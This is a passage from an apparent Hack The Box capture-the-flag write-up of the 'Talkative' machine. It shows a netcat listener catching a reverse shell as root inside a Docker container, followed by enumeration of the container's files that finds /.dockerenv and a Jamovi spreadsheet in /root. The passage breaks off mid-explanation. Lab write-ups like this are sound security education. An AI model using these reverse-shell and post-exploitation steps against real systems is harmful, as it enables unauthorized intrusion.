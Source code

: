 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.10|16:21:58(HKT)]
└> nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 57148
[...]
root@b06821bbda78:/# whoami; hostname
root
b06821bbda78
```

I'm `root` on this Docker container!

## Privilege Escalation

### Jamovi Docker root to `172.17.0.10` Docker www-data

After gaining initial foothold on a target machine, we need to escalate our privilege. To do so, we need to enumerate the system.

**In `/` directory, we see hidden file `.dockerenv`:**
```shell
root@b06821bbda78:/# ls -lah /.dockerenv
-rwxr-xr-x 1 root root 0 Aug 15  2021 /.dockerenv
```

Which means **we're inside a Docker container**.

Maybe we can perform Docker escape?

**In `/root` directory, we see an interesting file called `bolt-administration.omv`:**
```shell
root@b06821bbda78:/# ls -lah /root
total 28K
drwx------ 1 root root 4.0K Mar  7  2022 .
drwxr-xr-x 1 root root 4.0K Mar  7  2022 ..
lrwxrwxrwx 1 root root    9 Mar  7  2022 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3.1K Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4.0K Aug 10 08:25 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4.0K Aug 15  2021 Documents
-rw-r--r-- 1 root root 2.2K Aug 15  2021 bolt-administration.omv
```

**If you Google "omv file", you'll see that it's Jamovi's spreadsheet file:**
